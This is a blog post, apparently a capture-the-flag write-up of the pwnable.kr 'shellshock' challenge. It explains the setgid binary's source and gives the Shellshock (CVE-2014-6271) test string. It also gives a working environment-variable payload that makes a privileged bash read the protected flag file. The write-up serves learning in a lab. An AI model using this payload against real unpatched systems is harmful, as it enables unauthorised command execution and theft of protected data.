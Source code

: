 ```yaml
---
layout:     post
title:      "Pwnable.kr - shellshock"
date:       2018-01-19 0:00:00
author:     "W3ndige"
permalink: /:title/
category: 'Pwnable'
---
```


Today I'm going to show you how to exploit a vulnerability in ***shellschock***  challenge from [pwnable.kr](http://pwnable.kr "pwnable.kr").

### Solution

Firstly we'll have to connect via `ssh` to the server hosting this challenge.

{% highlight bash %}
main:~ > ssh shellshock@pwnable.kr -p2222
shellshock@pwnable.krs password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Fri Jan 19 07:08:33 2018 from 46.164.98.87
shellshock@ubuntu:~$ ls -la
total 980
drwxr-x---  5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 87 root root             4096 Dec 27 23:17 ..
-r-xr-xr-x  1 root shellshock     959120 Oct 12  2014 bash
d---------  2 root root             4096 Oct 12  2014 .bash_history
-r--r-----  1 root shellshock_pwn     47 Oct 12  2014 flag
dr-xr-xr-x  2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x  2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x  1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--  1 root root              188 Oct 12  2014 shellshock.c
{% endhighlight %}

From now on, we're ready to play with the challenge. First thing I notice is that flag is only accessible by user `shellshock_pwn`, other than my user called `shellshock`. But luckily, the binary is also using `shellshock_pwn` GID. Then, following my usual steps, I decide to check out the source code.

{% highlight c %}
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
{% endhighlight %}

In order to check what `setresgid`, `setresuid` and `getegid` are I decided to look at the ***man pages*** for these functions. Here's the quick walkthrough.

{% highlight text %}
setresuid() sets the real user ID, the effective user ID, and the
saved set-user-ID of the calling process.

An  unprivileged  process may change its real UID, effective UID,
and saved set-user-ID, each to one of: the current real UID,  the
current effective UID or the current saved set-user-ID.

A  privileged  process (on Linux, one having the CAP_SETUID capa‐
bility) may set its real UID, effective UID, and saved  set-user-
ID to arbitrary values.

If one of the arguments equals -1, the corresponding value is not
changed

Completely analogously, setresgid() sets the real GID,  effective
GID,  and  saved  set-group-ID of the calling process (and always
modifies the filesystem GID to be the same as the effective GID),
with the same restrictions for unprivileged processes.
{% endhighlight %}

{% highlight text %}
The getegid() function shall return the effective group ID of the
calling process
{% endhighlight %}

In the other words, this program will run with the group ID of the owner, which is `shellshock_pwn`. Just as the ID of the flag. That's good news.

Now let's look at the challenge name once again. Shellshock is the name of the vulnerability disclosed on 24 September 2014. It allows an attacker to execute arbitrary commands on the vulnerable versions of bash.

Vulnerability can be tested with the following command.

{% highlight bash %}
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
{% endhighlight %}

We can use the snippet to perform our own shellshock on this vulnerable binary. Firstly, let's modify this command to view the flag for us.

{% highlight bash %}
export x="() { :;}; /bin/cat flag "
{% endhighlight %}

Export is only used to save the variable, and then run the binary - just like that.

{% highlight bash %}
shellshock@ubuntu:~$ export x="() { :;}; /bin/cat flag "
shellshock@ubuntu:~$ ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
{% endhighlight %}

### Tools used
No external tools used.

### Reference/notes
[https://en.wikipedia.org/wiki/Shellshock_software_bug](https://en.wikipedia.org/wiki/Shellshock_software_bug)

[https://www.owasp.org/images/1/1b/Shellshock_-_Tudor_Enache.pdf](https://www.owasp.org/images/1/1b/Shellshock_-_Tudor_Enache.pdf)

[http://seclists.org/oss-sec/2014/q3/650](http://seclists.org/oss-sec/2014/q3/650)

[https://blog.cloudflare.com/inside-shellshock/](https://blog.cloudflare.com/inside-shellshock/)
